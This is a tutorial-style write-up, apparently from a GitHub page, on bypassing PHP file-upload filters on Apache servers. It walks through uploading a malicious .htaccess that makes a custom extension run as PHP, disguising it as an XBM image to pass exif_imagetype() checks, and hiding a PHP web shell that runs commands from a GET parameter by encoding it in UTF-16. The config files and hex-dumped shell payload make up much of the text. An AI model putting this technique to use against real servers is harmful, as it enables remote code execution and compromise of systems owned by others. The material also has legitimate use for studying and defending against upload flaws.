 In some Apache server an attacker can manipulate the files that can upload abusing of the **.htaccess** configuration file.

**".htaccess files provide a way to make configuration changes on a per-directory basis."**

Pretty clear. Thanks google ! So it’s a configuration file. Now look at this conf:
```
AddType application/x-httpd-php .php16      # Say all file with extension .php16 will execute php
php_value zend.multibyte 1                  # Active specific encoding (you will see why after :D)
php_value zend.detect_unicode 1             # Detect if the file have unicode content
php_value display_errors 1                  # Display php errors
```

So if you can upload this .htaccess file we will be the king and we will can execute our php code.

Tipically to upload thi file you need to modify the HTTP upload request as follow:
- Modify the content type to **text/plain**;
- Modify the filename parameter to **.htaccess**.

In case our .htaccess upload is rejected you can use **polyglot file**.

What is polyglot file ?
“In computing, a polyglot is a computer program or script written in a valid form of multiple programming languages, which performs the same operations or output independent of the programming language used to compile or interpret it.”

The first trick here is to find a way to bypass image checker. How would it be possible to send our .htaccess to pass through **exif_imagetype()** protection. The first think is to read the php doc to understand the function: http://php.net/manual/en/function.exif-imagetype.php.

Go to the bottom on the page and you will see all file authorized by the function. The goal is to found a format pretty clear to avoid garbage in our .htaccess. I think a XBM (X Bit Map) file will do the trick.

“In computer graphics, the X Window System used X BitMap (XBM), a plain text binary image format, for storing cursor and icon bitmaps used in the X GUI.”

And there is an example:
```
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

**The format of xbitmap is pretty clear : you set the image size on the first line of the file. And we’ve got a # in front of the line ! So our .htaccess will not be disturbed by the xbitmap header. And with this trick we bypass size and image filter. Let’s try this**.

This is our new .htaccess file:
```
#define width 1337                          # Define the width wanted by the code (and say we are a legit xbitmap file lol)
#define height 1337                         # Define the height

AddType application/x-httpd-php .php16      # Say all file with extension .php16 will execute php

php_value zend.multibyte 1                  # Active specific encoding (you will see why after :D)
php_value zend.detect_unicode 1             # Detect if the file have unicode content
php_value display_errors 1                  # Display php errors
```

### Bypass eventually filter that analyze the code of the file uploaded

But how can I upload php to bypass the filter on the code. The answer is simple : encode your payload.
Explanation. PHP support several form of encoding. Currently, you are writing in utf-8, but php also support utf-16 encoding. There is the same payload but encoded in utf-8 and after in utf-16.

In utf-8, a character is encoded on 1 byte:
```
00000000: 3c3f 7068 7020 7379 7374 656d 2824 5f47  <?php system($_G
00000010: 4554 5b27 636d 6427 5d29 3b20 6469 6528  ET['cmd']); die(
00000020: 293b 203f 3e0a                           ); ?>.
```

But in utf-16, the character is encoded on 2 bytes:
```
00000000: 003c 003f 0070 0068 0070 0020 0073 0079  .<.?.p.h.p. .s.y
00000010: 0073 0074 0065 006d 0028 0024 005f 0047  .s.t.e.m.(.$._.G
00000020: 0045 0054 005b 0027 0063 006d 0064 0027  .E.T.[.'.c.m.d.'
00000030: 005d 0029 003b 0020 0064 0069 0065 0028  .].).;. .d.i.e.(
00000040: 0029 003b 0020 003f 003e 0a              .).;. .?.>.
```
